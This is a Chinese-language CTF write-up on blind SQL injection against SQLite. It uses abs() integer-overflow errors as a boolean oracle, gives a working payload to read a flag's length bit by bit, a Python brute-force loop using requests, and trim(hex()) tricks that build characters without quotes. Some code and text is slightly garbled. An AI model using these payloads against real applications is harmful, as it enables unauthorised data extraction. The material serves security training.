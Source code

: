 

其实大体上还是和mysql差不多。

:a:解题

这个题目我们一看源码

![image-20220102164519259](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102164519259.png)

这个时候有两种方式可以注入。

- 报错注入
- 时间盲注

但其实这里的报错注入也是一种盲注，因为他对异常进行了捕获，但是我们要怎么构造异常呢?查文档的内置函数

`abs(x)`If X is the integer -9223372036854775808 then abs(X) throws an integer overflow error.

`load_extension(x,y)`这个函数在扩展加载失败时候会抛出异常

`sum ntitle`都存在整数溢出的异常输出

:record_button:问题1：没有substr等函数，我们如何来制造盲注呢?

师傅的博客是说利用长度变化。

![image-20220102165125315](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102165125315.png)

大概就是利用这个函数来达到目的，这样我们首先就需要知道这个字段本身的长度，然后一位一位地去爆破。

下面来看一下exp。

```
abs(case(length(hex((select(flag)from(flag))))&{1<<n})when(0)then(0)else(0x8000000000000000)end)
```

这个语句，最外层是abs抛出异常，中间是一个case when then else 语句。

最关键的地方在于`length(hex((select(flag)from(flag))))&{1<<n}`一开始不是很能够理解，为什么要这样做?

这个语句的目的是记录flag字段中每一个为1的部分，最后拼接起来就是最后的长度了。

```
l=0
for x in range(16):
	r=requests.post(url,data=f"abs(case(length(hex((select(flag)from(flag))))&{1<<x})when(0)then(0)else(0x8000000000000000)end)")
	if(b"An error occurred" in r.content)
		l |= 1<<x
print("[+] length:",l)
```

`84`

:record_button:问题2: 没有引号我们怎么构造`abcdef`

第一种方法 利用表中已经有的数据来构造`trim+hex`

```python
table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)' 
# 'zebra' → '7A65627261'
# trim 删除 1,2,5,6,7 后只剩下了 A ，以下同理
table['C'] = 'trim(hex(typeof(.1)),12567)' 
# 'real' → '7265616C'
table['D'] = 'trim(hex(0xffffffffffffffff),123)' 
# 0xffffffffffffffff = -1 → '2D31'
table['E'] = 'trim(hex(0.1),1230)' 
# 0.1 → 302E31
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)' 
# 'dog' → '646F67'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})' 
# 'koala' → '6B6F616C61'
```